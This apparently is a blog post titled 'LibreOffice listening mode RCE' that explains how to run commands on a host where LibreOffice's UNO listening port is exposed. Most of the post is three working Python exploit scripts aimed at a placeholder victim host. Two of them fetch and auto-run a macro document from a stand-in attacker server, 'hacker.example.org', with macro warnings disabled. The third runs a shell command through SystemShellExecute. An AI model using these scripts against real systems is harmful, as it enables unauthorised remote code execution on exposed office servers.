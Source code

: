 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```



# Executing commands via LibreOffice listening mode

LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). You can use this mode on any supported platform (Windows, Linux, Mac OS X).
Everything you need us start your office program with the following command:
`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to use it with python3-uno package.
There are several ways to execute command on remote system using UNO in LibreOffice:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself with *Shell* function of Basic language.
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

You don't need to upload your document with macro to host running LibreOffice, you can call it by URL instead.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN
inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = [] 
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* interface of API. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.




